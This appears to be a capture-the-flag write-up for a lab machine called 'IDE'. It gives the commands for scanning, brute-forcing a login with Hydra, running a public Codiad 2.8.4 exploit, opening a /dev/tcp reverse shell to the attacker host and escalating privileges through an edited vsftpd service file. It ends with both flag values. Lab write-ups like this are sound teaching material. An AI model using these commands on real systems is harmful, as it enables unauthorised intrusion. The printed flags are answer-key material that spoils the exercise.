

# IDE



## Task 1 Flags

#### user.txt

```bash
rustscan -a 10.10.45.178 -- -n -sV -sC
```


```bash
lftp -u Anonymous, 10.10.45.178
```


```bash
hydra -l john -P /usr/share/wordlists/rockyou.txt \
'http-post-form://10.10.45.178:62337/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect' \
-t64
```


```bash
searchsploit codiad 2.8.4
searchsploit -m 49705
```


```bash
python3 49705.py http://10.10.45.178:62337/ \
                 john password 10.6.9.176 4444 linux
```


```bash
echo 'bash -c "bash -i >/dev/tcp/10.6.9.176/4445 0>&1 2>&1"' | nc -lnvp 4444
```

```bash
nc -lnvp 4445
find / -type f -name user.txt 2>/dev/null
cat /home/drac/user.txt
ls -l /home/drac/user.txt
```


```bash
wget http://10.6.9.176/linpeas.sh
bash linpeas.sh
```


```bash
ssh drac@10.10.45.178
cat user.txt
```



`02930d21a8eb009f6d26361b2d24a466`



#### root.txt

```bash
sudo -l
ls -l /lib/systemd/system/vsftpd.service
```


```bash
vim /lib/systemd/system/vsftpd.service
sudo /usr/sbin/service vsftpd restart
systemctl daemon-reload
```


```bash
nc -nvlp 4446
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
```



`ce258cb16f47f1c66f0b0b77f4e0fb8d`


## Xmind


